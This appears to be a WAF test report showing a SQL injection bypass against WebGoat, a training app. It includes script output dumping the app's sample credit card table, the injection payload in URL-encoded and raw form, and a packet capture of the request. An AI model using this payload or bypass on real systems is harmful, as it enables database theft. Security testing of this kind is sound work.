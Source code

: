 ```
$ ./ssqli.sh
logged in to http://WAFTs-WAFTs-1VCWW9KB0COY-1208768243.us-west-2.elb.amazonaws.com/WebGoat
navigating to string SQLi lesson
resetting lesson...JIC
injection submitted
dumping credit card info:
USERID	FIRST_NAME	LAST_NAME	CC_NUMBER	CC_TYPE	COOKIE	LOGIN_COUNT
101	Joe	Snow	987654321	VISA	 	0
101	Joe	Snow	2234200065411	MC	 	0
102	John	Smith	2435600002222	MC	 	0
102	John	Smith	4352209902222	AMEX	 	0
103	Jane	Plane	123456789	MC	 	0
103	Jane	Plane	333498703333	AMEX	 	0
10312	Jolly	Hershey	176896789	MC	 	0
10312	Jolly	Hershey	333300003333	AMEX	 	0
10323	Grumpy	youaretheweakestlink	673834489	MC	 	0
10323	Grumpy	youaretheweakestlink	33413003333	AMEX	 	0
15603	Peter	Sand	123609789	MC	 	0
15603	Peter	Sand	338893453333	AMEX	 	0
15613	Joesph	Something	33843453533	AMEX	 	0
```

One may argue that the ';' is encoded when submitted as `account_name=Smith'%3B+select+*+from+user_data--&SUBMIT=Go!`. However, using BurpSuite the injection was performed after intercept which produces the same bypass; as can be seen by the packet capture taken from the WebGoat host; below:

05:06:13.370495 IP (tos 0x0, ttl 255, id 40896, offset 0, flags [DF], proto TCP (6), length 778)
    192.168.0.238.23847 > 192.168.2.247.http: Flags [P.], cksum 0x7b3f (correct), seq 35077:35803, ack 1149057, win 1856, options [nop,nop,TS val 60693 ecr 52774], length 726: HTTP, length: 726
	POST /WebGoat/attack?Screen=538385464&menu=1100 HTTP/1.1
	X-Forwarded-For: 104.174.159.161
	X-Forwarded-Proto: http
	X-Forwarded-Port: 80
	Host: wafts-wafts-1cx9pvzmvuayb-220624585.us-west-2.elb.amazonaws.com
	X-Amzn-Trace-Id: Root=1-5a66c2c5-4c5ce2a560c832b07eaa0253
	Content-Length: 57
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Content-Type: application/x-www-form-urlencoded; charset=UTF-8
	X-Requested-With: XMLHttpRequest
	Referer: http://wafts-wafts-1cx9pvzmvuayb-220624585.us-west-2.elb.amazonaws.com/WebGoat/start.mvc
	Cookie: JSESSIONID=0425E3DBAEA8260DAD9218E8C519BFF5

	account_name=Smith';+select+*+from+user_data--&SUBMIT=Go![!http]
	0x0000:  0a4d 3dab f800 0ad7 390b 1b22 0800 4500  .M=.....9.."..E.
	0x0010:  030a 9fc0 4000 ff06 53f7 c0a8 00ee c0a8  ....@...S.......
	0x0020:  02f7 5d27 0050 b256 918d ea47 1e9b 8018  ..]'.P.V...G....
	0x0030:  0740 7b3f 0000 0101 080a 0000 ed15 0000  .@{?............
	0x0040:  ce26 504f 5354 202f 5765 6247 6f61 742f  .&POST./WebGoat/
	0x0050:  6174 7461 636b 3f53 6372 6565 6e3d 3533  attack?Screen=53
	0x0060:  3833 3835 3436 3426 6d65 6e75 3d31 3130  8385464&menu=110
	0x0070:  3020 4854 5450 2f31 2e31 0d0a 582d 466f  0.HTTP/1.1..X-Fo
	0x0080:  7277 6172 6465 642d 466f 723a 2031 3034  rwarded-For:.104
	0x0090:  2e31 3734 2e31 3539 2e31 3631 0d0a 582d  .174.159.161..X-
	0x00a0:  466f 7277 6172 6465 642d 5072 6f74 6f3a  Forwarded-Proto:
	0x00b0:  2068 7474 700d 0a58 2d46 6f72 7761 7264  .http..X-Forward
	0x00c0:  6564 2d50 6f72 743a 2038 300d 0a48 6f73  ed-Port:.80..Hos
	0x00d0:  743a 2077 6166 7473 2d77 6166 7473 2d31  t:.wafts-wafts-1
	0x00e0:  6378 3970 767a 6d76 7561 7962 2d32 3230  cx9pvzmvuayb-220
	0x00f0:  3632 3435 3835 2e75 732d 7765 7374 2d32  624585.us-west-2
	0x0100:  2e65 6c62 2e61 6d61 7a6f 6e61 7773 2e63  .elb.amazonaws.c
	0x0110:  6f6d 0d0a 582d 416d 7a6e 2d54 7261 6365  om..X-Amzn-Trace
	0x0120:  2d49 643a 2052 6f6f 743d 312d 3561 3636  -Id:.Root=1-5a66